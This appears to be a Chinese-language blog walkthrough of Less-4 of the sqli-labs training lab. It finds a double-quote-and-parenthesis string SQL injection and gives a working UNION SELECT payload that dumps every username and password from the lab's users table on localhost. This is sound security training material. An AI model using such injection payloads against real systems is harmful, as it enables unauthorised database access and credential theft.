

# Less-4

依旧是熟悉的参数ID，测试id=1依旧有账户密码，进一步尝试报错注入发现没有报错信息，猜想可能和Less-3情况类似，服务器端的sql语句做了过滤或是限制导致我输入的数据都转成为了字符串无法执行，有了这个思路便可以在参数id=1后添加单引号或双引号，果然这关轮到双引号了

```http
http://localhost:8080/sqli-labs-master/Less-4/?id=1"
```


## 4.1 判断sql注入类型

分析报错信息

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

提取出有效信息

```mysql
"1"")
```

很容易看出我们提交的id=1“使得原本的sql语句提前闭合引起报错，还有这熟悉的右括号，这关基本上就是Less-3的一种变形模式，将单引号替换为了双引号，所以按照上一关的思路，还原这条sql语句

```mysql
select * from users where id=("$id");
```

所以这是一个双引号字符型sql注入

## 4.2 获取用户名和密码

因为和Less-3重复性过高，部分步骤直接略过，直接冲冲冲

```http
http://localhost:8080/sqli-labs-master/Less-4/?id=-1") union select 1,group_concat(username),group_concat(password) from security.users--+
```

